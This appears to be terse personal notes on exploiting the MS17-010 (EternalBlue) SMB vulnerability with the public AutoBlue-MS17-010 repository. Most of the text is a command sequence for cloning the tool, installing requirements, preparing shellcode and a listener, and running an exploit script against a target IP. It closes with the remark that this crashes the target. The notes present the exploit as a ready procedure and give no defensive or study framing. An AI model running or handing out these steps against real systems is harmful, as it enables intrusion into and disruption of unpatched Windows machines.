

Google
find repositories on github
https://github.com/3ndG4me/AutoBlue-MS17-010
git clone the above repository
run required commands
#pip install -r requirements.txt
#cd shellcode
#./shell_prep.sh

#cd ..
#listener_prep.sh

#python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>

this crashes the target